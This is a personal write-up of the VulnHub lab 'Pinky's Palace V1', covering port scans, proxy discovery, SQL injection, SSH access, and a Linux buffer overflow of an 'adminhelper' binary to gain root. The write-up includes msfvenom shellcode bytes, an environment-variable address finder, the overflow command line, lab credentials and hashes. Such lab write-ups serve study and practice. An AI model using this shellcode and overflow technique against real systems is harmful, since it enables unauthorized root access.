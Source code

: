 # BOX NAME: Pinky's Palace V1
**LINK**: https://www.vulnhub.com/entry/pinkys-palace-v1,225

<details open><summary><ins>SUMMARY</ins></summary>

```
1. Enumerate the box, pull hair. 
2. Find the squidproxy and read up. Try some ip ranges and localhost.
3. fuzz the webserver once proxy is found. find hidden login form. sqlmap that stuff.
4. Get the DB and try to login. Nothing. Try SSH as pinkymanage
5. Enumerate local, and find rsa key to pinky.
6. Buffer overflow the adminhelper in pinkys home folde.r

This box was hard. I really suck at BO on linux. This however taught me a new technique to find the return address. Or atleast where the exploit itself is stored on the binary. That's cool, and it's from a book I actually have. I guess I have to read it now.

Great stuff, on to the next box in the series!
```
</details>

# REMOTE ENUMERATION:

<details><summary><ins>TARGET</ins></summary>

```
[+] IP:		10.77.0.73
[+] URL:	
```
</details>
<details><summary><ins>NMAP</ins></summary>

```
└─$ cat nmap-pinkys1.log
# Nmap 7.93 scan initiated Sat May  6 14:03:50 2023 as: nmap -p8080,31337,64666 -sV -sC -oN nmap-pinkys1.log 10.77.0.73
Nmap scan report for 10.77.0.73
Host is up (0.00067s latency).

PORT      STATE SERVICE    VERSION
8080/tcp  open  http       nginx 1.10.3
|_http-server-header: nginx/1.10.3
|_http-title: 403 Forbidden
31337/tcp open  http-proxy Squid http proxy 3.5.23
|_http-server-header: squid/3.5.23
|_http-title: ERROR: The requested URL could not be retrieved
64666/tcp open  ssh        OpenSSH 7.4p1 Debian 10+deb9u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 df02124f4c6d50276a84e90e5b65bfa0 (RSA)
|   256 0aadaac716f71507f0a8502317f31c2e (ECDSA)
|_  256 4a2de5d8ee696155bbdbaf294e54522f (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat May  6 14:04:17 2023 -- 1 IP address (1 host up) scanned in 26.54 seconds

```
</details>
<details><summary><ins>WEB</ins></summary>

whatweb-scan
```
8080;
└─$ whatweb $URL:8080 --log-verbose=whatweb-pinkys-8080.log --follow-redirect=always
http://pinkys:8080 [403 Forbidden] Country[RESERVED][ZZ], HTTPServer[nginx/1.10.3], IP[10.77.0.73], Title[403 Forbidden], nginx[1.10.3]

31337;
http://pinkys:31337 [400 Bad Request] Content-Language[en], Country[RESERVED][ZZ], Email[webmaster], HTTPServer[squid/3.5.23], IP[10.77.0.73], Squid-Web-Proxy-Cache[3.5.23], Title[ERROR: The requested URL could not be retrieved], UncommonHeaders[x-squid-error], Via-Proxy[1.1 pinkys-palace (squid/3.5.23)], X-Cache[pinkys-palace,pinkys-palace:31337]


```

nikto-scan
```

```

fuzzing
```

```
other
```

```

</details>

<details><summary><ins>SERVICES</ins></summary>

FTP
```

```

SSH
```

```

SNMP
```

```

DNS
```

```

MAILSERVICES (POP, IMAP, SMTP)
```

```

LDAP
```

```

</details>

<details><summary><ins>Active Directory</ins></summary>

Active Directory
```

```
</details>

<details><summary><ins>SUMMARY REMOTE</ins></summary>

```
1.
2.
3.
```
</details>

# LOCAL ENUMERATION:

<details><summary><ins>FILES OF INTEREST</ins></summary>

**FILES**:
```

```

**SUID's**:

```
/bin/umount                                                                                                                       
/bin/su                                                                                                                           
/bin/mount                                                                                                                        
/bin/ping                                                                                                                         
/usr/lib/dbus-1.0/dbus-daemon-launch-helper                                                                                       
/usr/lib/squid/pinger                                                                                                            
/usr/lib/eject/dmcrypt-get-device                                                                                                 penssh/ssh-keysign
/usr/bin/chsh                                                                                                                     
/usr/bin/gpasswd
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/sudo 
```
**SGID's**:

```
pinkymanage@pinkys-palace:~$ find / -perm -g=s -type f 2>/dev/null                                                                
/sbin/unix_chkpwd                                                                                                                 
/usr/bin/chage                                                                                                                    
/usr/bin/wall                                                                                                                     
/usr/bin/dotlockfile
/usr/bin/ssh-agent
/usr/bin/bsd-write
/usr/bin/crontab
/usr/bin/expiry
```
**OTHERS**:

```

```
</details>

# BUFFER OVERFLOW
<details><summary><ins>Methodology</ins></summary>

```
/* yaojingguo commented on Nov 8, 2016The code is from Page 147 and 148 of Hacking: The Art of Exploitation, 2nd Edition . */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(int argc, char *argv[]) {
	char *ptr;

	if(argc < 3) {
		printf("Usage: %s <environment variable> <target program name>\n", argv[0]);
		exit(0);
	}
	ptr = getenv(argv[1]); /* get env var location */
	ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* adjust for program name */
	printf("%s will be at %p\n", argv[1], ptr);
}
```
```
└─$ msfvenom -a x64 -p linux/x64/exec CMD=/bin/sh -b '\x00\x0b\x0d\x0a\x18\x0c\x23\x24\x28\x29' | hexdump -v -e '"\\\x" 1/1 "%02x"'
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
Found 4 compatible encoders
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=9, char=0x00)
Attempting to encode payload with 1 iterations of x64/xor
x64/xor succeeded with size 87 (iteration=0)
x64/xor chosen with final size 87
Payload size: 87 bytes

\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\x67\xa7\xc8\x94\xac\x7f\xdf\xbf\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\x2f\x1f\xe7\xf6\xc5\x11\xf0\xcc\x0f\xa7\x51\xc4\xf8\x20\x8d\xd9\x0f\x8a\xab\xc0\xf2\x2d\x37\xb7\x67\xa7\xc8\xbb\xce\x16\xb1\x90\x14\xcf\xc8\xc2\xfb\x2b\x81\xd5\x5c\xff\xc7\x91\xac\x7f\xdf\xbf
```

```
export EXPL=`python -c 'print "\x48\x31\xc9\x48\x81\xe9\xfa\xff\xff\xff\x48\x8d\x05\xef\xff\xff\xff\x48\xbb\xbe\xbe\x34\xd9\x6a\xef\x70\x31\x48\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xf6\x06\x1b\xbb\x03\x81\x5f\x42\xd6\xbe\xad\x89\x3e\xb0\x22\x57\xd6\x93\x57\x8d\x34\xbd\x98\x39\xbe\xbe\x34\xf6\x08\x86\x1e\x1e\xcd\xd6\x34\x8f\x3d\xbb\x2e\x5b\x85\xe6\x3b\xdc\x6a\xef\x70\x31"'`
```

```
./adminhelper `python -c 'print "A"*72+"\x3a\xee\xff\xff\xff\x7f"` 
```

```
1. So the gist of it all is. Generate shellcode and store in in a variable. 
2. Find the return-address with the help of the yaojinguo suid.c
3. Export the adminhelper and BAM.
4. Root shell.
``` 

</details>

# LOOT

<details><summary><ins>USEFUL INFORMATION:</ins></summary>

**Kernel Info:**
*file /bin/bash ; echo -e " \\n" && lsb_release -a ; echo -e "\\n" && uname -a*
```
/bin/bash: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=4be0cc32aba02ec4e0f010047be5ae9dee756960, stripped
 

No LSB modules are available.
Distributor ID: Debian
Description:    Debian GNU/Linux 9.3 (stretch)
Release:        9.3
Codename:       stretch


Linux pinkys-palace 4.9.0-4-amd64 #1 SMP Debian 4.9.65-3+deb9u1 (2017-12-23) x86_64 GNU/Linux
```
</details>

<details><summary><ins>CREDS:</ins></summary>

```
username:password

pinkymanage:3pinkysaf33pinkysaf3	
```
</details>

<details><summary><ins>HASHES:</ins></summary>

```
+-----+----------------------------------+-------------+
| uid | pass                             | user        |
+-----+----------------------------------+-------------+
| 1   | f543dbfeaf238729831a321c7a68bee4 | pinky       |
| 2   | d60dffed7cc0d87e1f4a11aa06ca73af | pinkymanage |
+-----+----------------------------------+-------------+

```
</details>

# PROOFS

<details><summary><ins>Proofs</ins></summary>

Final payload:
```
pinky@pinkys-palace:~$ ./adminhelper `python -c 'print "A"*72+"\x3a\xee\xff\xff\xff\x7f"'`
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA:����
# id    
uid=1000(pinky) gid=1000(pinky) euid=0(root) groups=1000(pinky),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),108(netdev)
# ls /root/
root.txt
# cat /root/root.txt
===========[!!!CONGRATS!!!]===========

[+] You r00ted Pinky's Palace Intermediate!
[+] I hope you enjoyed this box!
[+] Cheers to VulnHub!
[+] Twitter: @Pink_P4nther

Flag: 99975cfc5e2eb4c199d38d4a2b2c03ce
```

```

```

```

```

</details>